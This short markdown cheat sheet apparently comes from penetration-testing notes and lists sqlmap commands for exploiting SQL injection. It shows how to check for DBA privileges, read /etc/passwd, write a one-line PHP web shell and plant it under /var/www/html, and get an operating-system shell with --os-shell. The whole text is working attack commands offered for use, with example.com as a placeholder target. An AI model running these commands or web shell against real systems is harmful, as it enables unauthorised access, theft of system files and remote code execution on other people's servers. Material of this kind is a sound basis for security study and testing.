 ## Check for DBA privileges

```bash
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```

## Reading Local Files

```bash
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

## Writing Local Files

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

```bash
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

## OS Command Execution

```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

